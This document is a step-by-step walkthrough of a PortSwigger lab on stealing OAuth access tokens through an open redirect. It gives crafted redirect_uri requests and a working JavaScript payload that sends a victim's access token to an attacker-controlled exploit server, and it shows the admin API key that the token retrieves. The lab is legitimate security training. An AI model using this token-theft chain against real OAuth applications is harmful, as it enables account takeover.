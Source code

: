 # Stealing OAuth access tokens via an open redirect

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

## To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

#### Note

##### You cannot access the admin's API key by simply logging in to their account on the client application.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in via your own social media account using the following credentials: `wiener:peter`.

---

step 1

![[lab4_http_history_redirect_uri.png]]

step 2

logout and login again and see HTTP history

![[lab4_http_history_redirect_uri_access_token.png]]

step 3
send step 2 to repeater
change uri with google.com

![[lab4_change_uri_bad_request.png]]

step 4
in uri section test with /../post?/postId=8
it give 302 response
![[lab4_uri_test_post_id.png]]

step 5
Note in this lab if you logout and login again you don't need to enter user-id and password
it will automatically login

now logout and click on my account and intercept process until you reach at redirect_uri
![[lab4_social_login_uri.png]]

step 6

add /../

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post?postId=8&response_type=token&nonce=-2006832369&scope=openid%20profile%20email HTTP/2
```

![[lab4_intercept_uri.png]]

you will redirect to post 8

![[lab4_after_forward_access_token_with_postid.png]]

this is complete url

```http
https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/post?postId=8#access_token=pDuxx3Zrg65Yue-6vKm6ShYqwSSLiVdm-_1Y7ZnTnH-&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

step 7

in the post in the bottom section there is next button

![[lab4_next_post_link_at_bottom_of_post.png]]

click on next

it will redirect to next post
earlier it was 8 not it is 9
![[lab4_post_id_9.png]]

step 8

go to HTTP history again find next url

![[lab4_next_path_url_302__found.png]]

step 8
send step 7 to repeater and path= https://google.com

```
GET /post/next?path=https://google.com HTTP/2
```

you will get 302 response

![[lab4_change_next_path_url_add_google_url.png]]

step 9
now click on my account
intercept request keep forward until you reach redirect_uri

```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```

change to

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://google.com&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```

![[lab4_redirect_google_with_access_token.png]]

---

step 10

now exploit it
add payload to exploit

```javascript
<script>window.location = '/?'+document.location.hash.substr(1)</script>
```

![[lab4_add_first_payload.png]]
and in uri section add `/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit`

```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/..&response_type=token&nonce=599160809&scope=openid%20profile%20email
```

change to

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit&response_type=token&nonce=599160809&scope=openid%20profile%20email
```

![[lab4_forward_path_id_uri_intercept.png]]

it will redirect to exploit url

![[lab4_access_token_exploit_web_page.png]]

copy url from browser for access_token

```
https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/?access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

or
click on access log for token

![[lab4_access_log_access+token.png]]

```
access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_
```

---

step 11
go to HTTP history click on me you will see api-key of user

![[lab4_http_history_me_request.png]]

now send to the repeater use token key `M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_` from **\_\_\_\_**

step 10

![[lab4_change_token_to_get_user_api_key.png]]

---

step 12

payload HInt

### Hint:

```javascript
<script>
  if (!document.location.hash){" "}
  {
    (window.location =
      "https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email")
  }{" "}
  else {(window.location = "/?" + document.location.hash.substr(1))}
</script>
```

change with your credential

```
outhid: oauth-0a29002603866278807a2f7b02c70094.oauth-server.net
labid: 0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net
exploitid: exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/
```

final payload

```javascript
<script>
  if (!document.location.hash){" "}
  {
    (window.location =
      "https://oauth-0a29002603866278807a2f7b02c70094.oauth-server.net/auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email")
  }{" "}
  else {(window.location = "/?" + document.location.hash.substr(1))}
</script>
```

![[lab4_add_payload_exploit.png]]

---

step 13
go to my account intercept again till uri

add and forward request

```
/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit
```

![[lab4_test_post_id_path_redirect_uri.png]]

you will redirect to exploit page go to access log see if any different ip which contain access token

![[lab4_access_token_with_different_api_key.png]]

copy token and paste to repeater at /me in authorization section

![[lab4_admin_api_key.png]]

```json
{
  "sub": "administrator",
  "apikey": "8D2JdRgR7VEp54s32CHR60k1Z3VK5IYy",
  "name": "Administrator",
  "email": "administrator@normal-user.net",
  "email_verified": true
}
```

---

step 14
submit api-key to solve lab

![[portswigger_wsa/P03_advanced_topics/P22_OAuth_authentication/images/lab4_lab_solved.png]]
